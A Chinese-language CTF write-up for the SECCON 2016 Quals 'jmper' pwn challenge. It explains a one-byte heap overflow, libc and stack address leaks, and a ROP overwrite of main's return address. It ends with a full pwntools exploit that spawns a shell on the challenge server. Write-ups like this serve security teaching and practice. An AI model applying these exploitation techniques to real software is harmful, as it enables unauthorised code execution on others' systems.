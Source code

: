 Title: [SECCON CTF 2016 Quals] jmper 300
Date: 2016-12-12 11:44
Tags: SECCON, CTF, pwn, ROP, Heap, One-byte Overflow
Author: Naetw
Summary: A write-up for SECCON CTF 2016 Quals jmper 300

## Description

> 這題跟 cheer_msg 其實差不多，然後解法發現也跟以前解過的 [applestore](http://train.cs.nctu.edu.tw/problems/16) 很像，有紀錄以前的 writeup 真是太好了，記憶障礙的時候可以回顧一下

## Analyzing

> 64 bit ELF, FULL RELRO, 沒有 canary, 有 NX, 沒有 PIE

這支程式也很小，不過用了一個從沒看過的 function，`setjmp` 跟 `longjmp`，簡單的介紹可以看 [jmp](http://www.cnblogs.com/hazir/p/c_setjmp_longjmp.html)，最後會需要瞭解這兩個 function 才能完成 exploit

main 裡面沒什麼重要的東西，除了 `setjmp` 之外，在 `setjmp` 之後會呼叫 `f`

`f` 蠻長的，但主要就是實作以下功能:

1. Add student
2. Name student
3. Write memo
4. Show name
5. Show memo
6. Bye


### Add student:

會先 `malloc` 一塊 48 bytes 的空間，第一格存著 student_num 也就是 ID，第六格存著存放名字的 heap address

### Name student:

這裡會先要求輸入 ID，然後就可以開始取名字，這裡存在 **one-byte overflow**，但是這裡我沒用到，這裡之後用來 overwrite return address

### Write memo:

這裡一樣先要求輸入 ID，這裡主要是改 student heap 的第二格到第四格，但是這裡存在著 **one-byte overflow**，所以我們可以利用這個來修改 name heap 的 address

### Show name:

就 dump 出 name

### Show memo:

同上

### Bye:

`exit(0)`

## Exploit

所以想法很簡單，用 A 學生 **one-byte overflow** 來修改 A 學生 name heap 的位置，把它指向 B 學生的第六格，也就是存放 B 學生 name heap 那格，接著用 A 學生來改 B 學生 name heap address，就可以進行 **leak info** 跟 **overwrite**

### First:

新增兩名學生，然後呼叫 A 學生的 `write_memo`，利用 **one-byte overflow** 把 A 學生 name heap address 改掉

student heap layout:

```
             +------------------+
             |.........prev_size|
             |..............size|
studentA     |.......student_num|
             |..................| memo
             |..................|
             |..................|
             |..................|
             |........nameA_heap|
             +------------------+
             |.........prev_size|
             |..............size|
studentB     |.......student_num|
             |..................| memo
             |..................|
             |..................|
             |..................|
             |........nameB_heap|
             +------------------+
```

real memory layout:

```assembly
0x6031e0:       0x0000000000000000      0x0000000000000000
0x6031f0:       0x0000000000000000      0x0000000000000000
0x603200:       0x0000000000000000      0x0000000000603220 # nameA_heap
0x603210:       0x0000000000000000      0x0000000000000031
0x603220:       0x0000000000000000      0x0000000000000000
0x603230:       0x0000000000000000      0x0000000000000000
0x603240:       0x0000000000000000      0x0000000000000041
0x603250:       0x0000000000000001      0x0000000000000000
0x603260:       0x0000000000000000      0x0000000000000000
0x603270:       0x0000000000000000      0x0000000000603290 # nameB_heap

# after one-byte overflow

0x6031e0:       0x0000000000000000      0x0000000000000000
0x6031f0:       0x0000000000000000      0x0000000000000000
0x603200:       0x0000000000000000      0x0000000000603278 # address of storing nameB_heap
0x603210:       0x0000000000000000      0x0000000000000031
0x603220:       0x0000000000000000      0x0000000000000000
0x603230:       0x0000000000000000      0x0000000000000000
0x603240:       0x0000000000000000      0x0000000000000041
0x603250:       0x0000000000000001      0x0000000000000000
0x603260:       0x0000000000000000      0x0000000000000000
0x603270:       0x0000000000000000      0x0000000000603290

```

### Second:

接著我們為 student A 命名，就可以 overwrite student B name heap 的 address，把 address 改成隨便一個 libc function 的 GOT entry 在這我是 leak `puts`，之後再用 `show name` 就可以 leak info

after overwrite:

```
0x6031e0:       0x0000000000000000      0x0000000000000000
0x6031f0:       0x0000000000000000      0x0000000000000000
0x603200:       0x0000000000000000      0x0000000000603278
0x603210:       0x0000000000000000      0x0000000000000031
0x603220:       0x0000000000000000      0x0000000000000000
0x603230:       0x0000000000000000      0x0000000000000000
0x603240:       0x0000000000000000      0x0000000000000041
0x603250:       0x0000000000000001      0x0000000000000000
0x603260:       0x0000000000000000      0x0000000000000000
0x603270:       0x0000000000000000      0x0000000000601fa0 # GOT entry of puts
```

### Third:

有 **libc base address** 之後，我們就可以拿到 **system address**，但是因為這題有 FULL RELRO 的保護，所以 GOT entry 不可以修改，因此，我們需要修改 stack 上的 return address

libc 裡面有一個 symbol - `environ` 裡面存著 stack address，所以重複 step first & second，來拿 stack address，之後算一下 offset 就可以知道 `main` 的 return address 的位置

這裡為什麼要用 `main`，因為 `f` 這個 function 只有兩種離開方式，一個是利用 `longjmp` 另一個是利用 `exit(0)`，所以我們必須要用到 `longjmp` 回到 `main`，再控制 eip

### Fourth:

在這步驟我們需要做兩件事，把 "sh" 寫上 memory (或是直接利用 libc 裡的 "sh")，把 `main` 的 return address 寫掉，偽造 system function call

因為我們需要 `longjmp` 讓程式跳回 `main`，在 add student 裡，他會檢查學生人數是不是超過 30 如果超過就會呼叫 `longjmp`，所以我把 "sh" 寫在 student_num 這個 global variable，這樣下次呼叫 add student 就會跳回 `main`，然後 return 開 shell

## Final Exploit:

```python
#!/usr/bin/env python

from pwn import *

#r = remote('127.0.0.1', 4000)
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
r = remote('jmper.pwn.seccon.jp', 5656)
libc = ELF('libc-2.19.so-8674307c6c294e2f710def8c57925a50e60ee69e')

def add():
    r.recvuntil('6. Bye :)')
    r.sendline('1')

def name(ID, content):
    r.recvuntil('6. Bye :)')
    r.sendline('2')
    r.recvuntil('ID:')
    r.sendline(str(ID))
    r.recvuntil('Input name:')
    r.sendline(content)

def wmemo(ID, content):
    r.recvuntil('6. Bye :)')
    r.sendline('3')
    r.recvuntil('ID:')
    r.sendline(str(ID))
    r.recvuntil('Input memo:')
    r.sendline(content)

def sname(ID):
    r.recvuntil('6. Bye :)')
    r.sendline('4')
    r.recvuntil('ID:')
    r.sendline(str(ID))

def smemo(ID):
    r.recvuntil('6. Bye :)')
    r.sendline('5')
    r.recvuntil('ID:')
    r.sendline(str(ID))


add()
add()
wmemo(0, 'A' * 32 + '\x78')
name(0, p64(0x601fa0))
sname(1)
puts = (u64(r.recvline()[:6] + '\x00' * 2))
base = puts - libc.symbols['puts']
system = base + libc.symbols['system']
stack = base + libc.symbols['environ']

name(0, p64(stack))
sname(1)
stack = u64(r.recvline()[:6] + '\x00' * 2)
pop_rdi_ret = 0x400cc3

name(0, p64(0x602028))
name(1, 'sh\x00')
name(0, p64(stack-240)) # overwrite main_ret_address
name(1, p64(pop_rdi_ret) + p64(0x602028) + p64(system))

add() # call longjmp in order to back to main

r.interactive()
```
